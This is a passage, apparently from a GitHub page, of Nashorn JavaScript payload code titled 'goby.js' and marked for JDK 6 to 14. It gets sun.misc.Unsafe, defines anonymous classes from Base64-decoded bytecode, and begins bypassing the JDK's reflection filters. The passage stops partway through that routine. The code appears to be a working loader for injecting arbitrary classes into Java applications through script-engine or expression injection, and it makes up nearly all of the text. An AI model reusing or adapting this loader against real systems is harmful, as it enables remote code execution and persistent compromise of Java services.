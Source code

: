```
    unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), classBytes, null).newInstance();
}

defineClass(Base64DecodeToByte(code));

```

### goby.js

适用范围：JDK6-14

```
try {
    load("nashorn:mozilla_compat.js");
} catch (e) {
}

function getUnsafe() {
    var theUnsafeMethod =
        java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafeMethod.setAccessible(true);
    return theUnsafeMethod.get(null);
}

function removeClassCache(clazz) {
    var unsafe = getUnsafe();
    var clazzAnonymousClass = unsafe.defineAnonymousClass(
        clazz,
        java.lang.Class.forName("java.lang.Class")
            .getResourceAsStream("Class.class")
            .readAllBytes(),
        null
    );
    var reflectionDataField =
        clazzAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(clazz, unsafe.objectFieldOffset(reflectionDataField), null);
}

function bypassReflectionFilter() {
    var reflectionClass;
    try {
        reflectionClass = java.lang.Class.forName(
            "jdk.internal.reflect.Reflection"
        );
    } catch (error) {
        reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
    }
    var unsafe = getUnsafe();
    var classBuffer = reflectionClass
        .getResourceAsStream("Reflection.class")
        .readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(
        reflectionClass,
        classBuffer,
        null
    );
    var fieldFilterMapField =
        reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
    var methodFilterMapField =
        reflectionAnonymousClass.getDeclaredField("methodFilterMap");
    if (
        fieldFilterMapField
            .getType()
```